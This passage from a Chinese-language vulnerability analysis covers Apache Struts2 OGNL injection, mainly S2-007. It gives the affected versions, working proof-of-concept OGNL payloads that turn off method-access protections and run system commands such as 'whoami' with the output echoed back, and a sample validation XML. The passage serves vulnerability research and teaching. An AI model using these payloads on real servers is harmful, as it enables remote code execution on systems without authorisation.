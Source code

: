 现在理一下思路，也就是：

- 通过Ognl表达式访问OgnlContext的 `SecurityMemberAccess` ;
- 通过调用 `SecurityMemberAccess` 的 `setAllowStaticMethodAccess(boolean)` 方法，设置允许调用静态方法；
- 当然，和S2-003一样，需要设置 `xwork.MethodAccessor.denyMethodExecution` 设置为false，否则不能执行方法；
- 使用Ognl表达式执行 `Runtime.getRuntime().exec(String)` 方法来执行命令；

使用Ognl表达式设置前的OgnlContext：

![image-20210816101440032](/media/image-20210816101440032.png)

使用Ognl表达式设置后的OgnlContext如下：

![image-20210816101605399](/media/image-20210816101605399.png)

然后就可以顺利的执行 `Runtime.getRuntime().exec(String)` 了：

![image-20210816101825104](/media/image-20210816101825104.png)

## S2-007

影响版本：Struts 2.0.0 - Struts 2.2.3

CVE编号：none

POC如下：

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("calc")) + '

// 带回显：
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
```

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析，从而造成远程代码执行。

例如这里配置一个 `UserAction-validation.xml` 检查UserAction的age字段是否符合要求：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
   "-//OpenSymphony Group//XWork Validator 1.0//EN"
   "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
   <field name="age">
      <field-validator type="int">
         <param name="min">1</param>
         <param name="max">150</param>
      </field-validator>
   </field>
</validators>
```

